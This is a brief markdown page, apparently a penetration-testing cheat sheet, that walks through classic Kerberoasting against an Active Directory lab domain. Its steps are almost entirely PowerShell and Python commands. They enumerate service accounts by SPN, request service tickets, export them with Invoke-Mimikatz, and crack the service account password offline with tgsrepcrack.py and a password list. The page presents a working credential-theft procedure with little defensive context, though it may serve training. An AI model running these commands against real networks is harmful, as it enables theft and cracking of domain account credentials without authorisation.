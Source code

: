 ## Classic Kerberoasting

1. Find user accounts used as Service accounts:
    
    ```powershell
    # PowerView
    Get-NetUser -SPN
    
    # ActiveDirectory Module
    Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
    ```
    
2. Request a Ticket Granting Service (TGS):
    
    ```powershell
    # PowerShell
    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/database.cyberlab.cybercorp.local"
    
    # PowerView
    Request-SPNTicket -SPN "MSSQLSvc/database.cyberlab.cybercorp.local"
    ```
    
3. Check if the TGS has been granted:
    
    ```powershell
    klist
    ```
    
4. Export all tickets using Mimikatz
    
    ```powershell
    # Invoke-Mimikatz
    Invoke-Mimikatz -Command '"kerberos::list /export"'
    ```
    
5. Crack the Service account password (this step can be performed on a Kali machine):
    
    ```powershell
    # tgsrepcrack.py
    git clone https://github.com/nidem/kerberoast
    python3 ./tgsrepcrack.py ./10-million-password-list-top-1000000.txt ./240a10000-STUDENT1@MSSQLSvc~database.cyberlab.cybercorp.localCYBERLAB.LOCAL.kirbi
    ```
    